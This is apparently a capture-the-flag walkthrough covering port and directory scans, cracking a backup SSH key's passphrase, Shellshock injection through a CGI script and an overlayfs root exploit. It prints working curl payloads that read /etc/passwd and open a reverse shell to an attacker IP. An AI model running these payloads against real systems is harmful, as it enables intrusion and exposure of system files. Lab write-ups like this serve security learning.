 Started a nmap scan
```
22 OpenSSH 6.6.1p1
80 Apache 2.4.7
```
Started a nikto scan found the same stuff as gobuster 

Started a gobuster scan with list `2.3-medmium` 
```
/cgi-bin
/img
/uploads
/admin
/css
/js
/backup
/secret
```
under the backup folder there is a rsa key using ssh2john we cracked the hash it cracked to `let.....n` 

Doing another gobuster scan on the `secret` folder since I cant find anything and that one is the only one with a picture
Testing out the `admin` folder on the webhost 
running the nikto scan on the `cgi-bin` folder found its vulnerable to shellshock and useing this command we can read the `/etc/passwd` file 
	`curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.92.166/cgi-bin/test.cgi` 
Then to get a reverse shell 
	`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.13.8.255/9999 0>&1' bash -s :'' http://10.10.92.166/cgi-bin/test.cgi`
And now we are users `www-data` to get root going to use the overlayfs exploit but when we run it the path for gcc is not set to set it we need to run this 
	`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin` 
and now we can run the exploit agin and now we are root 